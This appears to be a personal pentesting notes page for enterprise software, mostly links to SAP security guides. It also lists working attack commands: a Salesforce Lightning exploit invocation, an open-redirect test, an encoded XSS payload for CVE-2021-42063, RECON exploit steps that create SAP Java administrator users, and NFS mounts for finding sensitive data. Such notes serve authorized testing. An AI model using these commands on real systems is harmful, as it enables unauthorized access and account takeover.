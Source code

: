 ```yaml
---
layout: notes
permalink: /notes/tech/enterprise/
title: Pentesting Enterprise Applications
---
```


# Pentesting Enterprise Applications

# Saleforce Aura Lightning
```bash
https://github.com/moniik/poc_salesforce_lightning 
python3 exploit.py -u https://domain.force.com/path/ -[option]
```

# SAP
[SAP Audit&Pentest](https://github.com/Jean-Francois-C/SAP-Security-Audit/blob/master/README.md)\
[SAP PT with Metasploit](https://medium.com/swlh/erp-pentest-metasploit-writeup-e65de8ece7d1)\
[SAP PT Basic guide - 1](https://medium.com/@sumitmaheshwari555/sap-penetration-testing-5e1cee2a5cc8)\
[SAP PT Basic guide - 2](https://techinnovatehub.medium.com/basic-guide-for-pentesting-a-sap-environment-129c39882942)\
[SAP PT Basic guide - 3](https://github.com/shipcod3/mySapAdventures)\
[Response Header Injection in SAP HTTP Content Server](https://herolab.usd.de/security-advisories/usd-2022-0046/)\
[Bizploit guide](https://httphacker.wordpress.com/2013/09/04/up-and-running-with-bizploit/)\
[SAP PT Guide by networkintelligence - 1](https://networkintelligence.ai/blogs/sap-security-assessment-methodology-part-1-a-penetration-tester-meets-sap/)\
[SAP PT Guide by networkintelligence - 2](https://networkintelligence.ai/blogs/sap-security-assessment-methodology-part-2-credential-less-attack-vectors/)\
[SAP PT Guide by networkintelligence - 3](https://networkintelligence.ai/blogs/sap-security-assessment-methodology-part-3-credential-centric-attack-vectors/)

## SAP-Pentest-Cheatsheet
### SAP Web Interface Vulnerability
```bash
#Open Redirection Check
https://HOST/sap/public/bc/icf/logoff?redirecturl=MALICIOUSURL

#Unsecured Protocol (HTTP) Check
http://HOST:PORT/startPage
http://HOST:PORT/sap/public/info

#System Informational Misconfiguration Check
http://HOST:PORT/sap/public/info

#XSS (CVE-2021-42063) - look for /SAPIrExtHelp
https://localhost/SAPIrExtHelp

https://HOST/SAPIrExtHelp/random/%22%3e%3c%53%56%47%20%4f%4e%4c%4f%41%44%3d%26%23%39%37%26%23%31%30%38%26%23%31%30%31%26%23%31%31%34%26%23%31%31%36%28%26%23%78%36%34%26%23%78%36%66%26%23%78%36%33%26%23%78%37%35%26%23%78%36%64%26%23%78%36%35%26%23%78%36%65%26%23%78%37%34%26%23%78%32%65%26%23%78%36%34%26%23%78%36%66%26%23%78%36%64%26%23%78%36%31%26%23%78%36%39%26%23%78%36%65%29%3e.asp

#SAP Information System 1.0 Shell Upload

#CVE-2022-22536 (ICMAD SAP)

#SAP RECON vulnerability (CVE-2020-6287, CVE-2020-6286)
https://github.com/chipik/SAP_RECON
# 1.Download zip file
python RECON.py -H 172.16.30.8 -f /1111.zip

# 2.Create SAP JAVA user
python RECON.py -H 172.16.30.8 -u

# 3.Create SAP JAVA Administrator user
python RECON.py -H 172.16.30.8 -a
```

### SAP Network Vulnerability
```bash
#SSL Vulnerability Check
sslscan

#NFS Mount
nfs-ls nfs://HOST/mount
mkdir mnt && mount -t nfs HOST:/mount ./mnt
#Search for sensitive information in nfs
```